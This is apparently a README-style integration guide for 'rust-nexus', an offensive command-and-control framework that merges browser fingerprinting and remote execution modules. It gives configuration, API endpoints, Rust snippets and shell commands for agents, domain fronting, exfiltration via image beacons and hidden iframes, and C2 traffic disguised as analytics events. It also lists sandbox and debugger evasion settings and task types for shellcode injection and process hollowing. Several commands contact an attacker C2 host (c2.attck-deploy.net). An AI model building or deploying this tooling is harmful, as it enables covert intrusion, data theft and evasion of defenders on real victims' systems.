

# Catch & Tauri-Executor Integration Guide

This document provides a comprehensive guide for the integration of the `catch` browser fingerprinting system and `tauri-executor` cross-platform execution framework into the rust-nexus C2 infrastructure.

## Overview

The integration creates a unified, enterprise-grade C2 framework that combines:

- **Rust-Nexus**: Enterprise C2 with gRPC communication and infrastructure automation
- **Catch System**: Advanced browser fingerprinting and reconnaissance capabilities  
- **Tauri-Executor**: Cross-platform execution with multiple protocol support

## Architecture Integration



## New Modules Overview

### 1. nexus-webui
**Purpose**: Modern web-based management interface  
**Integrates**: Tauri-executor's web interface technology  
**Features**:
- Real-time agent management dashboard
- Task orchestration interface
- Infrastructure monitoring
- WebSocket-based live updates

### 2. nexus-recon  
**Purpose**: Advanced reconnaissance and browser fingerprinting  
**Integrates**: Catch system's fingerprinting engine  
**Features**:
- Comprehensive browser fingerprinting
- Network reconnaissance
- System profiling
- JavaScript-based data collection

### 3. nexus-hybrid-exec
**Purpose**: Multi-protocol execution engine  
**Integrates**: Tauri-executor's cross-platform capabilities  
**Features**:
- SSH execution
- WMI/PowerShell execution (Windows)
- HTTP API execution
- Automatic fallback mechanisms

### 4. nexus-web-comms
**Purpose**: HTTP/WebSocket fallback communication  
**Integrates**: Catch system's data exfiltration techniques  
**Features**:
- Domain fronting support
- Traffic obfuscation
- Multiple exfiltration methods
- WebSocket real-time communication

## Configuration Integration

### Enhanced nexus.toml Configuration

```toml
# Web UI Configuration
[webui]
enabled = true
bind_address = "0.0.0.0"
port = 8080
enable_websockets = true
cors_origins = ["*"]

# Reconnaissance Configuration  
[reconnaissance]
enabled = true
javascript_engine = true
stealth_mode = true
timeout_seconds = 30
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36"
]

# Hybrid Execution Configuration
[hybrid_execution]
enabled = true
default_timeout = 60
max_concurrent_jobs = 5
fallback_enabled = true
protocols = ["grpc", "ssh", "api", "powershell"]

# Web Communications Configuration
[web_communications]
enabled = true
primary_endpoints = ["https://api.attck-deploy.net/v1"]
fallback_endpoints = ["https://backup.attck-deploy.net/api"]
domain_fronting = true
traffic_obfuscation = true
```

## API Integration

### Web UI API Endpoints

```rust
// Agent Management
GET    /api/agents                    // List all agents
GET    /api/agents/{id}              // Get agent details
POST   /api/agents/{id}/tasks        // Execute task on agent
DELETE /api/agents/{id}              // Remove agent

// Infrastructure Management
GET    /api/domains                  // List managed domains
POST   /api/domains/rotate           // Trigger domain rotation
GET    /api/certificates             // Certificate status
POST   /api/certificates/renew       // Renew certificates

// Reconnaissance
POST   /api/recon/fingerprint        // Browser fingerprinting
POST   /api/recon/network           // Network reconnaissance  
POST   /api/recon/system            // System profiling
GET    /api/recon/results/{id}      // Get recon results

// Hybrid Execution
POST   /api/exec/ssh                // SSH execution
POST   /api/exec/wmi                // WMI execution
POST   /api/exec/api                // API execution
GET    /api/exec/methods            // Supported methods
```

### WebSocket Events

```javascript
// Real-time updates via WebSocket
const ws = new WebSocket('wss://c2.attck-deploy.net/ws');

ws.onmessage = function(event) {
    const data = JSON.parse(event.data);
    
    switch(data.type) {
        case 'AgentConnected':
            updateAgentList(data.data);
            break;
        case 'TaskResult':
            displayTaskResult(data.data);
            break;
        case 'DomainRotation':
            updateInfrastructure(data.data);
            break;
    }
};
```

## Task Integration

### Enhanced Agent Task Types

```rust
// Traditional C2 tasks
"shell"                  // Command execution
"powershell"            // PowerShell execution  
"file_download"         // File operations
"process_list"          // System enumeration

// New integrated tasks
"web_fingerprint"       // Browser fingerprinting
"network_recon"         // Network reconnaissance
"hybrid_execution"      // Multi-protocol execution
"reconnaissance"        // Comprehensive profiling

// Fiber-based execution (existing)
"fiber_shellcode"       // Direct fiber execution
"fiber_hollowing"       // Process hollowing
"early_bird_injection"  // Early bird injection
```

### Task Configuration Examples

#### Browser Fingerprinting Task
```rust
let recon_task = TaskData {
    task_id: uuid::Uuid::new_v4().to_string(),
    task_type: "web_fingerprint".to_string(),
    command: "fingerprint".to_string(),
    parameters: hashmap! {
        "target_url" => "https://example.com".to_string(),
        "stealth_mode" => "true".to_string(),
        "collect_fonts" => "true".to_string(),
        "collect_canvas" => "true".to_string(),
    },
    timeout: Some(30),
    priority: 200,
};
```

#### Hybrid Execution Task
```rust
let exec_task = TaskData {
    task_id: uuid::Uuid::new_v4().to_string(),
    task_type: "hybrid_execution".to_string(),
    command: "execute".to_string(),
    parameters: hashmap! {
        "endpoint" => "192.168.1.100".to_string(),
        "method" => "ssh".to_string(),
        "command" => "whoami".to_string(),
        "fallback_methods" => "api,powershell".to_string(),
    },
    timeout: Some(60),
    priority: 150,
};
```

## Communication Flow Integration

### Primary Communication: gRPC
```
Agent <--[gRPC/mTLS]--> C2 Server
```

### Fallback Communication: HTTP/WebSocket
```
Agent <--[HTTP/HTTPS]--> Web Communications Module <--> C2 Server
Agent <--[WebSocket/WSS]--> Web Communications Module <--> C2 Server
```

### Domain Fronting Integration
```
Agent <--[HTTPS]--> CDN/CloudFlare <--[Host Header]--> Real C2 Server
```

## Data Exfiltration Methods

### Catch Integration Methods

1. **Image Beacon**: 1x1 pixel tracking
2. **Fetch API**: Modern POST requests
3. **XMLHttpRequest**: Traditional AJAX
4. **Hidden Iframe**: Stealth transmission
5. **WebSocket**: Real-time streaming

### Traffic Obfuscation

```rust
// Obfuscated message appears as analytics
WebCommsMessage::Analytics(AnalyticsData {
    session_id: uuid::Uuid::new_v4().to_string(),
    events: vec![AnalyticsEvent {
        event_type: "page_view".to_string(),
        properties: hashmap! {
            "page_url" => "/dashboard".to_string(),
            "user_id" => uuid::Uuid::new_v4().to_string(),
            "tracking_data" => base64::encode(&hidden_c2_data),
        },
    }],
    timestamp: chrono::Utc::now(),
})
```

## Deployment Integration

### Enhanced Build Process

```bash
# Build all integrated components
cargo build --release --all

# Build specific integration modules
cargo build --release -p nexus-webui
cargo build --release -p nexus-recon
cargo build --release -p nexus-hybrid-exec
cargo build --release -p nexus-web-comms

# Cross-platform builds
cargo build --release --target x86_64-pc-windows-gnu
cargo build --release --target x86_64-unknown-linux-gnu
```

### Service Deployment

```bash
# Start integrated C2 server with all modules
./target/release/nexus-server --config nexus.toml --enable-all

# Start individual services
./target/release/nexus-webui --port 8080
./target/release/nexus-recon --config recon.toml
./target/release/nexus-hybrid-exec --protocols ssh,api,wmi
```

### Docker Integration

```dockerfile
# Multi-stage build for integrated framework
FROM rust:1.70 as builder
WORKDIR /app
COPY . .
RUN cargo build --release --all

FROM debian:bookworm-slim
RUN apt-get update && apt-get install -y \
    ca-certificates \
    libssl3 \
    && rm -rf /var/lib/apt/lists/*

COPY --from=builder /app/target/release/nexus-server /usr/local/bin/
COPY --from=builder /app/target/release/nexus-webui /usr/local/bin/
COPY --from=builder /app/target/release/nexus-recon /usr/local/bin/
COPY --from=builder /app/target/release/nexus-hybrid-exec /usr/local/bin/

# Copy web assets from catch integration
COPY catch/js/ /opt/nexus/web/js/
COPY catch/index.html /opt/nexus/web/
COPY tauri-executor/src/ /opt/nexus/web/tauri/

EXPOSE 443 8080 8443
CMD ["nexus-server", "--config", "/etc/nexus/config.toml"]
```

## Security Considerations

### Operational Security (OPSEC)

1. **Traffic Legitimacy**: All communications appear as legitimate web traffic
2. **Domain Fronting**: C2 traffic routed through CDNs
3. **Certificate Validation**: Valid TLS certificates prevent inspection
4. **Infrastructure Rotation**: Automated domain and certificate rotation

### Anti-Analysis Integration

```rust
// Enhanced evasion combining all systems
let evasion_config = EvasionConfig {
    vm_detection: true,
    debugger_detection: true,
    sandbox_detection: true,
    network_monitoring_evasion: true,
    traffic_obfuscation: true,
    timing_attacks: true,
};
```

## Testing Integration

### Unit Tests
```bash
# Test all modules
cargo test --all

# Test specific integration
cargo test -p nexus-recon fingerprint_integration
cargo test -p nexus-hybrid-exec ssh_execution
cargo test -p nexus-web-comms obfuscation_methods
```

### Integration Tests
```bash
# End-to-end integration testing
cargo test --test integration_tests

# Component integration tests
cargo test --test webui_integration
cargo test --test recon_integration  
cargo test --test exec_integration
cargo test --test comms_integration
```

## Performance Metrics

### Benchmarks

- **Agent Connections**: 1000+ concurrent agents
- **Domain Rotation**: <60 seconds DNS propagation
- **Certificate Provisioning**: <90 seconds for new certificates
- **Fingerprinting**: <5 seconds comprehensive fingerprint
- **Execution Fallback**: <10 seconds protocol switching

### Resource Usage

- **Memory**: ~50MB base + 10MB per 100 agents
- **CPU**: <5% idle, <20% under load
- **Network**: Minimal overhead with compression
- **Storage**: ~100MB base installation

## Troubleshooting Integration

### Common Issues

#### Module Build Failures
```bash
# Dependency issues
cargo clean
cargo update
cargo build --release --all

# Feature conflicts
cargo build --no-default-features --features minimal
```

#### Communication Failures  
```bash
# Test gRPC connectivity
grpcurl -insecure c2.attck-deploy.net:8443 list

# Test HTTP fallback
curl -k https://c2.attck-deploy.net/api/health

# Test WebSocket
wscat -c wss://c2.attck-deploy.net/ws
```

#### Integration Debugging
```bash
# Enable debug logging
RUST_LOG=debug ./target/release/nexus-server

# Module-specific debugging  
RUST_LOG=nexus_webui=trace,nexus_recon=debug ./nexus-server
```

## Migration Guide

### From Legacy Systems

1. **Backup existing configuration**:
   ```bash
   cp nexus.toml nexus.toml.backup
   ```

2. **Update configuration** with new modules:
   ```bash
   # Add integration sections to nexus.toml
   ```

3. **Rebuild with new modules**:
   ```bash
   cargo build --release --all
   ```

4. **Deploy gradually**:
   ```bash
   # Test new modules with existing infrastructure
   ./nexus-server --enable-webui --test-mode
   ```

5. **Full migration**:
   ```bash
   # Switch to integrated deployment
   ./nexus-server --config nexus.toml --enable-all
   ```

## Future Enhancements

### Planned Integrations

- **Mobile Agent Support**: iOS/Android execution capabilities
- **Cloud Integration**: AWS/Azure/GCP infrastructure automation  
- **ML/AI Integration**: Behavioral analysis and automatic evasion
- **Blockchain C2**: Decentralized command and control

### Extension Points

- **Custom Execution Protocols**: Plugin architecture for new methods
- **Advanced Fingerprinting**: GPU, audio, and hardware fingerprinting
- **Enhanced Obfuscation**: Steganography and advanced encoding
- **Distributed Infrastructure**: Multi-region, multi-cloud deployment

## Conclusion

This integration successfully unifies three powerful systems into a comprehensive, enterprise-ready C2 framework. The modular architecture ensures maintainability while providing advanced capabilities for modern security operations.

The integration maintains backward compatibility while adding significant new functionality through the four new modules: nexus-webui, nexus-recon, nexus-hybrid-exec, and nexus-web-comms.

For additional support or questions, refer to the individual module documentation or contact the development team.
